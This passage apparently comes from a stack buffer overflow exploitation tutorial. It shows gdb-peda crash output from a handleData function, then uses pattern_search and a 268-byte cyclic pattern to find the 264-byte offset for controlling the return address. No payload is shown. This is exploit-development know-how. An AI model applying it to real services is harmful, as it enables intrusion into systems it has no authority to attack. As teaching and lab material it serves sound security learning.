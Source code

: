 ```
R10: 0x37d
R11: 0x7ffff7ba2730 --> 0xfffda400fffda12f
R12: 0x400870 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe650 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
  0x4009ba <handleData+84>:    jmp    0x4009c1 <handleData+91>
  0x4009bc <handleData+86>:    mov    eax,0x0
  0x4009c1 <handleData+91>:    leave
=> 0x4009c2 <handleData+92>:    ret
  0x4009c3 <doprocessing>:     push   rbp
  0x4009c4 <doprocessing+1>:   mov    rbp,rsp
  0x4009c7 <doprocessing+4>:   sub    rsp,0x820
  0x4009ce <doprocessing+11>:  mov    DWORD PTR [rbp-0x814],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbd8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
0008| 0x7fffffffdbe0 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
0016| 0x7fffffffdbe8 ("A%JA%fA%5A%KA%gA%6A%\n")
0024| 0x7fffffffdbf0 ("5A%KA%gA%6A%\n")
0032| 0x7fffffffdbf8 --> 0xa25413625 ('%6A%\n')
0040| 0x7fffffffdc00 --> 0x0
0048| 0x7fffffffdc08 --> 0x0
0056| 0x7fffffffdc10 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004009c2 in handleData ()
gdb-peda$
```

peda has the function `pattern_search`, which searches for the peda-pattern wherever it can:

```
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 256
Registers point to pattern buffer:
[RDI] --> offset 6 - size ~203
[RSP] --> offset 264 - size ~38
Pattern buffer found at:
0x0060301a : offset    0 - size  300 ([heap])
0x00007fffffffd968 : offset  203 - size    4 ($sp + -0x270 [-156 dwords])
[...]
```

It didnt not find the pattern in RIP, but RSP is pointing 264 bytes into the pattern.

Lets try it again with a pattern of 264+4=268 bytes:

```
gdb-peda$ pattern create 268
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%d'
gdb-peda$ attach 17147
[...]
gdb-peda$ c
```
